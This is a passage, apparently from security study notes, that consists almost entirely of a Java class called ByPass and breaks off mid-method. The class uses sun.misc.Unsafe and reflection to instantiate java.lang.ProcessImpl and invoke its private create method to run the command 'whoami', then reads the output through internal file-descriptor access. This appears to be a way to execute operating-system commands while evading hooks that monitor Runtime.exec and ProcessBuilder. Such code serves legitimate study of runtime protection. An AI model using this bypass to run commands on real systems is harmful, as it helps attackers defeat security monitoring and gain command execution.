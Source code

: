 ![image-20230922091403479](./../.gitbook/assets/image-20230922091403479.png)

```java
import sun.misc.JavaIOFileDescriptorAccess;
import sun.misc.Unsafe;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class ByPass {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("sun.misc.Unsafe");
        Field field = clazz.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        Class<?> processImpl = Class.forName("java.lang.ProcessImpl");
        Process process = (Process) unsafe.allocateInstance(processImpl);
        Method create = processImpl.getDeclaredMethod("create", String.class, String.class, String.class, long[].class, boolean.class);
        create.setAccessible(true);
        long[] stdHandles = new long[]{-1L, -1L, -1L};
        create.invoke(process, "whoami", null, null, stdHandles, false);

        JavaIOFileDescriptorAccess fdAccess
            = sun.misc.SharedSecrets.getJavaIOFileDescriptorAccess();
        FileDescriptor stdout_fd = new FileDescriptor();
        fdAccess.setHandle(stdout_fd, stdHandles[1]);
        InputStream inputStream = new BufferedInputStream(
            new FileInputStream(stdout_fd));
```